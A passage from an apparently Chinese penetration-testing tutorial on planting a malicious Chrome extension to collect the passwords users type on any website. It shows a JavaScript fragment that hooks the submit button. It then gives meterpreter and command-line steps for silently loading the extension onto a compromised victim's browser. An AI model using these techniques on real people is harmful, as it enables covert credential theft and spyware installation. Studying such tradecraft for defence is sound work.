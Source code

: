 ```
    {
        document.getElementById('subbtn').onmouseover = email;
    }    
    });

```

![Alt text](http://drops.javaweb.org/uploads/images/9e27343f2e0ce5c690e4060601479959452e3b4d.jpg)

> 修改payload可针对性获取某网站账号密码信息。

Payload就介绍这么多了，熟悉前端的童鞋一定可以创造更多花式玩儿法。

0x03 When to Use
=====

或许小伙伴们会问，弄这个有什么用，我又不需要装这个插件抓自己的密码。当然，这个肯定不是用来搞自己的。渗透测试过程中，有没有碰到过看到管理员经常使用Chrome浏览器，而我们却没办法获取到其常用密码呢？（管理员并没有使用浏览器记住密码的功能）。这个时候，除了给系统装键盘记录器，我们还可以为其浏览器装我们编写的插件。而这个插件，就可以用来搜集各种敏感信息，而且，针对的是浏览器访问的所有网站！

除此之外，我发现chrome是可以通过命令行来安装插件的，来设想一个场景，我们使用某个漏洞，或者社会工程学获取了小明的计算机控制权，现在已经有了一个meterpreter会话如下：

![Alt text](http://drops.javaweb.org/uploads/images/ef10486f006e0a901f8ae08fa4233c76d5beca19.jpg)

执行如下命令：

```
meterpreter > run post/windows/gather/enum_chrome

```

![Alt text](http://drops.javaweb.org/uploads/images/7be12b3f38e23680f10eb7af3a052de12286b61c.jpg)

可以看到目标系统是安装了chrome浏览器的。

上传插件目录demo到`e:\demo\`目录，由于meterpreter的upload只能上传文件，不能上传文件夹，所以这里需要把demo文件夹打包压缩以后再上传，之后再通过目标系统的解压软件或者自己上传的unrar.exe进行解压，具体操作如下图:

![Alt text](http://drops.javaweb.org/uploads/images/1c2596b2c86e65b20ea08fa96875b7d8057f867b.jpg)

使用如下命令寻找安装的解压软件：

![Alt text](http://drops.javaweb.org/uploads/images/967636228fe203032a7a60f0cb2984669c524a2b.jpg)

之后使用如下命令进行解压并删除压缩包，具体操作如下图：

![Alt text](http://drops.javaweb.org/uploads/images/f03ec5a5a12825818503a8554f28ee3c5f2dabf0.jpg)

之后为chrome添加插件，使用如下命令：

```
"C:\Program Files (x86)\Google\Chrome\Application\chrome.exe"  --load-extension="F:\demo\demo" --silent-launch 

```

> 路径为chrome默认安装路径，如果找不到，可以使用dir命令来找，`--load-extension`是要加载的插件路径，`--silent-launch`表示不开启chrome，静默安装。注意：`需要在chrome未运行的情况下才可成功加载插件。`
